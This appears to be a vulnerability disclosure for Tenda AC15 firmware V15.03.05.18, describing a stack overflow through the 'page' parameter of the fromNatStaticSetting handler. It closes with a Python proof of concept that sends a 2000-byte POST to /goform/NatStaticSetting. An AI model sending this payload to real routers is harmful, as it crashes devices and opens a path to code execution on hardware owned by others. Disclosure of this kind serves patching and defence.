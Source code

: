 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `fromNatStaticSetting` function. The `v6` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v6` can trigger this security vulnerability.

![image-20240314224603065](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314224603065.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/NatStaticSetting"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314224648283](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314224648283.png)
